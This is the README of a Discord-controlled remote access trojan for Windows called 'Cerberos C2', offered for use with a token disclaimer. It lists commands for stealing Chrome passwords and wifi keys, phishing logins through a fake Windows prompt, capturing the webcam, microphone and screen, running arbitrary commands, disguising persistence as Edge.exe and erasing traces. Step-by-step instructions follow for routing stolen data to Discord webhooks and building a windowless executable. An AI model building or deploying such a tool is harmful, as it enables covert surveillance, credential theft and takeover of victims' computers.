 # Cerberos-C2
Cerberos C2 has over 50+ Functions, Cerberos Uses Discord as the C2. Cerberos CAN ONLY BE USED TO CONTROL WINDOWS. \
Cerberos v1.0.0 is created on 09-8-2022 by Vczz0.\
Cerberos is Tested on Windows 10+\
Total Spended Hours: 15~
#### BTC: bc1ql98s5yu2yt0r0rnp4ytc76sadd2xewapszmpd3


# WARNING!!
Cerberos C2 is not created for illegal purpose. The creator is not responsible for any damage. 

# Requirements
1. Windows 10 for setup
2. Python 3.10.6
3. Discord Application
4. Cerberos-C2.zip

# Todo
1. Email Function.
2. More Cam / microphone functions
3. GUI application
4. Rubberducky script

# Functions
if you use a path you can use {user}. Cerberos C2 will change it to the real username
change {ID} to the client ID wich you want to control.
```
# Cerberos C2
!resetID 			       >> Resets all ID's of clients. New ID's will be used after the program restarts.
!list 				       >> Display all active client's.
!info {ID} 			       >> Displays Version of client.
!terminate {ID} 		       >> Close's Application. Wich results to lose of control of client.

# System
!cmd {ID} {INPUT}		       >> Executes a system command on client. Change {INPUT} To command.
!destruct {ID} 			       >> Delets all trace's of Cerberos C2.
!reboot {ID}                           >> Reboots Client's system.
!shutdown {ID}                         >> Shutsdowb Client's system.
!usbcheck {ID} 			       >> Checks all pluged in device's.
!vm {ID}			       >> Checks if client is vm.
!wcd {ID}			       >> Get Current working dir.
!allproc {ID} 			       >> Lists all current curring processes.
!showerror {ID} {TITLE} {MESSAGE}      >> Shows error message. Change {TITLE} To your own title and {MESSAGE} TO your own message.
!clipboard {ID} 		       >> Gets Client clipboard.
!cd {ID} {DIR}		               >> Change dir to dir given.
!wallpaper {ID} {PATH}                 >> Changes walpaper to given dir. NOTE: "GIVE WHOLE DIR, else the wallpaper is black".
!volumemax {ID}			       >> Maxes out the volume of client.
!volumedown {ID} 		       >> Set's volume to zero of client.
!say {ID} {TEXT} 		       >> Get a voice to say {TEXT}.
!url {ID} {URL} 		       >> Opens {URL} in browser. 
!winlogin {ID} 			       >> Create's a fake window login to try to get a password.
!taskkill {ID} {TASK} 		       >> Kill's a task. Either the id or name.
!wifipw {ID} 			       >> Extracts wifi passwords.
!bluescreen {ID} 		       >> Bluescreen's client.
!window {ID} 			       >> Get client window text. 
!admincheck {ID}                       >> Checks for admin rights.

# Files
!upload {ID} {LINK} {NAME} / {PATH}    >> Uploads a file. Trough link. you can upload a file in the #upload channel and copy link from there. Enter file or path to store file.
!download {ID} {FILE}		       >> Downloads file from client. 
!remove {ID} {FILE} 		       >> Removes file from client
!mkdir 				       >> Make's a dir on client.

# Mouse / Keys    		       
!key {ID} {KEY} 		       >> Clicks Key given on clients keyboard change {KEY} with the key.
!morekey {ID} {KEY} 		       >> Clicks multiple Key given on clients keyboard change {KEY} with the key's.
!mousemove {ID} {coordinates} 	       >> Move's client mouse to given coordinates.
!mouseclick {ID} {coordinates} 	       >> Clicks on coordinates given.
!mouysedoubleclick {ID} {coordinates}  >> Double clicks on coordinates given.


# Cam
!screenshot {ID} 		       >> Takes a screenshot of client.
!frontcam {ID}    		       >> Takes a picture of client's frontcam.
!mic {ID}			       >> Records MIC from client for 9 seconds.
!camcount {ID} 			       >> Counts all systemcams.

# IP
!ipinfo {ID}			       >> Displays IP info of client. Country, Region etc.
!ipmap {ID} 			       >> Converts IP Lat, Long of client to a map.

# admin rights
!block {ID} 			       >> Blocks input, keyboard, mouse.
!unblock {ID} 			       >> Unblocks input. 
!displayoff {ID} 		       >> Blocks client input and set a black screen.
!displayon {ID} 		       >> Unblock client input and removes blackscreen. 

#persist
!persist {ID}			       >> Creates persistance on client. Exe: Edge.exe Regname: Edge.
!peristcheck {ID}		       >> Checks for persistance on client.
!persistdelete {ID}                    >> Tries to delete persistance.

# Chrome
!chromehistory {ID}		       >> Gets Chrome history of client. 
!chromecred {ID} 		       >> Extracts Chrome passwords.

#Rickroll
!rickroll {ID}			       >> Open's a rickroll video.

```





 

# Instalation
1. Click on [this link](https://www.python.org/ftp/python/3.10.6/python-3.10.6-amd64.exe) to download python 3.10.6.
2. Open te Python application.
3. Click "[ ] Add Python 3.10.6 to path] > "install now". Wait till finished after that you can close the Python application.
4. Open the Github of Cerberos-C2 > Click on "Code" > "Download ZIP". Wait till download is finished.
5. Unzip "Cerberos-C2.zip".
6. Open the folder "Cerberos-C2".
7. Right click on mouse and click on "Properties" > copy the "Location".
8. Open "CMD" > type: "cd" paste the copied Location + \Cerberos-C2 > hit "Enter".
9. Type: ```pip install -r requirements.txt```. Wait till its finished. Click on "-" To Minimize CMD.
10. Open Cerberus-C2 Folder again and double Click on the folder "main" > right click on "main.py" > "Edit" > "Edit with EDILE". Or you can edit it with Notepad. Minimize the Edile.
11. Click on [this link](https://discord.new/4A2stHvnUmXV) to copy the server template.
12. Change the server name to: "Cerberos C2".
13. Click on the green button "Create".
14. Open Discord > Click on the Server "Cerberos C2" > Click on "Cerberos C2" > "Server Settings" > "Integrations" > "Create Webhook".
15. Change the name of the webhook To: "Cerberos-AgentOnline" > Set channel to: "#agent-online" > Click On "Copy Webhook URL".
16. Open The Idle to change "main.py". Scroll till you see: AGENT_ONLINE_ID = "[AGENT_ONLINE_WBHOOK]". Replace [AGENT_ONLINE_WBHOOK] with your Copied Cerberos-AgentOnline Webhook setup earlier.
17. Click on "New Webhook" > change the name to "Cerberos-C2" > Channel to: "#c2"  > "Copy Webhook URL". 
18. Open The Idle to change "main.py". Scroll till you see: COMMAND_CONTROL_ID = "[C2_WEBHOOK]". Replace [C2_WEBHOOK] with your Copied Cerberos-C2 Webhook setup earlier.
19. Click on "New Webhook" > change the name to "Cerberos-Screenshots" > Channel to: "#screenshots" > "Copy Webhook URL".
20. Open The Idle to change "main.py". Scroll till you see: SCREENSHOT_ID = "[SCREENSHOT_WEBHOOK]". Replace [SCREENSHOT_WEBHOOK] with your Copied Cerberos-Screenshots Webhook setup earlier.
21. Click on "New Webhook" > change the name to "Cerberos-Webcam" > Channel to: "#webcam" > "Copy Webhook URL".
22. Open The Idle to change "main.py". Scroll till you see: WEB_CAM_ID = "[WEBCAM_WEBHOOK]". Replace [WEBCAM_WEBHOOK] with your Copied Cerberos-Webcam Webhook setup earlier.
23. Click on "New Webhook" > change the name to "Cerberos-Microphone" > Channel to: "#microphone"  > "Copy Webhook URL".
24. Open The Idle to change "main.py". Scroll till you see: MIC_ID = "[MICROPHONE_WEBHOOK]". Replace [MICROPHONE_WEBHOOK] with your Copied Cerberos-Microphone Webhook setup earlier.
25. Click on "New Webhook" > change the name to "Cerberos-Downloads" > Channel to: "#downloads" > "Copy Webhook URL".
26. Open The Idle to change "main.py". Scroll till you see: DOWNLOAD_ID = "[DOWNLOAD_WEBHOOK]". Replace [DOWNLOAD_WEBHOOK] with your Copied Cerberos-Downloads Webhook setup earlier.
27. Open your webbrowser and go to the discord developer portal website. You might have to login.
28. Click on "New application" > Set The Name Tho "Cerberos-C2" > "Create". By clicking on the image of the bot you set an logo if you want. The Logo can be found in the zip. 
29. On The left side click on "OAuth2" > "URL Generator". Click on "Bot". Then click on "Administrator.
30. Then there is a generated link click on "Copy". 
31. Open a new tab and enter the link. Note: "Sometimes it takes a bit of time".
32. Select the server: Cerberos C2.
33. click on "continue" > "authorize". do the verification.
34. Go back to the developer portal and go to "Bot" > "Copy" To copy the token. or you have to click "Reset" and then copy the token.
35. Open The Idle to change "main.py". Scroll till you see: BOT_TOKEN = "[BOT_TOKEN_HERE]". Replace [BOT_TOKEN_HERE] with your Copied Bot token setup earlier
36. Open the cmd window again. now type: ```pyinstaller main\main.py --onefile --noconsole --i \ico\exe.ixo``` and hit "Enter"
37. You can find the exe in the dist dir. 
